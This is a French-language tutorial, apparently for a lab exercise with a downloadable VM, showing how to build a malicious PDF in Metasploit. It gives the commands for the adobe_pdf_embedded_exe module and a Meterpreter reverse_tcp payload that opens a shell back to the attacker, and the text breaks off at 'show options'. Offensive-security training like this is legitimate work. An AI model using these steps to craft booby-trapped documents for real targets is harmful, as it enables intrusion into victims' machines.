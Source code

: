 Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : [télécharger la Machine Virtuelle](https://mega.nz/file/YbEHwDJa#ky-4v_EFZCSYkLJLwulOvQXYNAbfivyp73gFinxZoDk){:target="_blank"}

### Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande ```msfconsole``` pour démarrer métasploit.
Ensuite il faut chercher le payload. 
Tapez ```search windows fileformat pdf```. Vous aurez un résultat comme ci dessous :

![image search](images/search_msfconsole.png)

Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter. 
Ainsi, tapons la commande : ```set payload windows/meterpreter/reverse_tcp```

Pour voir les options actuelles du payload, tapez : ```show options```
![image options](images/show_options.png)
